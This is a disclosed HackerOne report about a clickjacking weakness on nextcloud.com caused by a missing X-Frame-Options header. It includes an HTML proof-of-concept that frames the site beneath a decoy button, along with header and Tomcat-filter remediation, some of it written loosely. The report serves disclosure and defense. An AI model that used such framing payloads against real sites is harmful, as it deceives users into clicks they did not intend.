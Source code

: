 # Nextcloud Clickjacking Vulnerability

## Report Details
- **Report ID**: 710996
- **URL**: https://hackerone.com/reports/710996
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-10-10T11:17:29.494Z
- **Disclosed**: 2019-11-11T15:27:59.514Z

## Reporter
- **Username**: try_4_hack
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
<html>
hi!
Test domain : https://nextcloud.com
Summary
======
https://nextcloud.com/ A clickjacking vulnerability was detected because the X-Frame-Options Header was not set.More

Steps To Reproduce
==
1. Create a new HTML file

2. Include the following payload
```
<html>
<head>
<title>Trusted web page</title>
</head>
<body>
<div id="content">
<h1>https://nextcloud.com</h1>
<form action="https://nextcloud.com">
<input type="submit" class="button" value="Click and go!">
</form>
</div>
<iframe id="clickjacking" src="https://nextcloud.com" width="500" height="500" scrolling="no" frameborder="none">
</iframe>
</body>
</html>
```
3. Open document in browser

Impact
===
An attacker could trick the user into sending a malicious link, and then the user could click on the image to cause potential harm.

Solution
===
The vulnerability can be fixed by adding "frame-ancestors 'self';" to the CSP (Content-Security-Policy) header.


```
X-Frame-Options : DENY 
X-Frame-Options : SAMEORIGIN , ALLOW-FROM allows 
X-Frame-Options : ALLOW FROM https:// allow website address
```
```
<!-- X-Frame-Options header -->

    <filter>

        <filter-name>httpHeaderSecurity</filter-name>

        <filter-class>org.apache.catalina.filters.HttpHeaderSecurityFilter</filter-class>

        <init-param>

            <param-name>antiClickJackingOption</param-name>

            <param-value>SAMEORIGIN</param-value>

        </init-param>

    </filter>

    <filter-mapping>

        <filter-name>httpHeaderSecurity</filter-name>

        <url-pattern>*.do</url-pattern>

    </filter-mapping>
```



References
==
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
https://www.owasp.org/index.php/Clickjacking
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Clickjacking_Defense_Cheat_Sheet.md

Thanks you

## Impact

An attacker could potentially include a payload like this, which could potentially affect the victim.

## Attachments
No attachments
